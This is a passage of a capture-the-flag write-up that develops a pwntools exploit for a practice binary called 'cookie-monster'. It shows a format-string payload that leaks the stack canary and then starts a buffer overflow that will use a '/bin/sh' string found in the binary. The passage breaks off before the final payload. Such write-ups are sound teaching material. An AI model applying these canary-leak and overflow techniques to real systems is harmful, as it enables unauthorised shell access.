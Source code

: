 Fortunately we have a `/bin/sh\x00` in the binary, so we can use that.

![sh](https://i.imgur.com/MepXGZg.png)

## Exploit development

Now that we have a working canary leak, we can start working on our exploit.

As usual we start by importing pwntools and starting the process. We also add the ELF file as it might be useful later.

setting the context to debug helps us with the development as it shows the I/O with the process.


```py
from pwn import *

p = process("./cookie-monster")
b = ELF("./cookie-monster")

context.log_level = "debug"
```

We start by receiving until it asks our name, and sending our payload to leak stack cookie.

```py
a = p.recvuntil(":") # Enter your name:
print("[!] recvd: ", a)

p.sendline("%15$p") # canary = $esp-15*4
```

Then, we need to parse out the stack canary from the response:
```py
resp = p.recvline() # Hello 0xabcdef

## Hello 0xabcdef
## 123456789abcde > canary starts on 9th char
canary_xstr = resp[9:]
print(canary_xstr)

# read as hex integer
canary = int(canary_xstr,16)
print(canary)
log.info("Canary: {}".format(hex(canary)))
```

Now that we have the canary leak, we have to receive output from the process until it asks us: `What would you like to purchase?`

```py
p.recvuntil("?")
```

Now that we are at the overflow part, we need to set our payload up.

We'll need the `/bin/sh` string we found earlier, so we can use the ELF.search function to find its address.

